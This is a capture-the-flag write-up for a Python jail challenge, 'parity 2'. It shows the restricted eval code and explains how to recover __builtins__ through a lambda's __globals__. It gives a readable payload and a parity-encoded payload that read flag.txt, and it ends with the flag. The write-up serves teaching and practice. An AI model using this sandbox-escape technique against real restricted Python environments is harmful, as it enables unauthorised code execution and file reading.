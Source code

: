 # parity 2

## Goal

Read `flag.txt` while adhering to the same parity constraints as `parity 1`, but with some changes:
- Builtin functions like `print`, `open`, and `eval` have been removed from the context
- Underscores (`_`) are "free" and don't fail the parity check
- We have access to an empty lambda function `f`

## Challenge
```py
inp = input("> ")

f = lambda: None

for i, v in enumerate(inp):
    if v == "_":
        continue
    if not (ord(v) < 128 and i % 2 == ord(v) % 2):
        print('bad')
        exit()

eval(inp, {"__builtins__": None, 'f': f})
```

## Solution

* [solve_short.py](solve/solve_short.py)
* [solve_long.py](solve/solve_long.py)
* [gen.py](solve/gen.py)
* [parity1.py](solve/parity1.py)

1. Explore `f`: We can inspect `f` using `dir(f)` to find useful attributes. One of these is `__globals__`, which contains references to all global variables, including the hidden `__builtins__`. Conveniently (and critically), the word `__globals__` also passes the parity check without modification.
2. Access `__builtins__`: Although we can't directly use `__builtins__` due to parity constraints, we can construct it character by character as a string and then retrieve it using `f.__globals__.pop('__builtins__')`.
3. Use builtins to read the flag: Once we retrieve `__builtins__`, we can access functions like `print` and `open` to read and display the flag:

### Human-Readable (Non-Encoded) Payload
```py
f.__globals__.pop("__builtins__").eval('f.__builtins__["print"](f.__builtins__["open"]("flag.txt").read())')
```

### Final Encoded Payload
Note: Tab characters aren't correctly rendered here.

```py
f	.__globals__.	pop	(	"_"+"_"+ 'b' + 	"u"	 + 	"i"	 + 'l' + 't' + 	"i"	 + 'n' + 	"s"+"_"+"_").eval	(	 'f' + '.' + 	"_"	 + 	"_"	 + 'b' + 	"u"	 + 	"i"	 + 'l' + 't' + 	"i"	 + 'n' + 	"s"	 + 	"_"	 + 	"_"	 + 	"["	 + '"' + 'p' + 'r' + 	"i"	 + 'n' + 't' + '"' + 	"]"	 + '(' + 'f' + '.' + 	"_"	 + 	"_"	 + 'b' + 	"u"	 + 	"i"	 + 'l' + 't' + 	"i"	 + 'n' + 	"s"	 + 	"_"	 + 	"_"	 + 	"["	 + '"' + 	"o"	 + 'p' + 	"e"	 + 'n' + '"' + 	"]"	 + '(' + '"' + 'f' + 'l' + 	"a"	 + 	"g"	 + '.' + 't' + 'x' + 't' + '"' + 	")"	 + '.' + 'r' + 	"e"	 + 	"a"	 + 'd' + '(' + 	")"	 + 	")")
```

## Flag

`jail{parity2_1e2e8963ea65a0333f617}`

